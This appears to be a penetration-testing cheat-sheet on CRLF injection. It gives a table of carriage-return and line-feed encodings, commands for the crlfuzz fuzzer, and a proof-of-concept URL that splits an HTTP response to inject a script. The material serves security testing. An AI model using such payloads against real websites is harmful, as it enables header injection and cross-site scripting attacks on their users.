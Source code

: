 #  CRLF
##  CRLF Injection

| Description     | Character | ASCII (Decimal) | ASCII (Hex) | URL Encoded |
| --------------- | --------- | --------------- | ----------- | ----------- |
| Carriage Return | `\r`      | `13`            | `0x0D`      | `%0D`       |
| Line Feed       | `\n`      | `10`            | `0x0A`      | `%0A`       |


###### Tools

```
# https://github.com/dwisiswant0/crlfuzz
crlfuzz -u "http://example.com"

crlfsuite
```

## POC

CRLF to XSS

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
